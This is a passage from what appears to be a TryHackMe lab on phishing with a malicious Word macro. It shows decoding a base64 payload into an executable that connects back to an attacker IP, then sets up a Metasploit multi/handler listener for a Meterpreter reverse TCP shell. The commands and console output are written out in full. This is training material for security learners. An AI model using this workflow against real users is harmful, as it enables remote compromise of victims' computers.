 If you copy it and save it to a text file, you can convert it to its original executable format using `base64` as shown below. You can notice the size of the files.

AttackBox Terminal

```javascript
root@AttackBox:~# base64 -d payload-base64.txt > payload.exe
root@attackbox:~# ls -lh
-rw-r--r--. 1 root root 97K payload-base64.txt
-rw-r--r--. 1 root root 73K payload.exe
```

You already expect this file to connect to the specified IP address and port. If you would like to check its behaviour in a sandbox, you can check the [VirusTotal report](https://www.virustotal.com/gui/file/ab3f9303460c590c452f0c259a35d50a7a2e7c52a81d4e5a42bb98b365d8ab9b/behavior) for a file that we created and uploaded. In this case, it attempts to connect to `10.9.18.120`.

 ![VirusTotal summary of the payload behaviour](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859908974.png) \n 

## Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

* Open a new terminal window and run `msfconsole` to start the Metasploit Framework
* `use multi/handler` to handle incoming connections
* `set payload windows/meterpreter/reverse_tcp`to ensure that our payload works with the payload used when creating the malicious macro \n 
* `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
* `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
* `show options` to confirm the values of your options
* `exploit` starts listening for incoming connections to establish a reverse shell

AttackBox Terminal

```javascript
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

```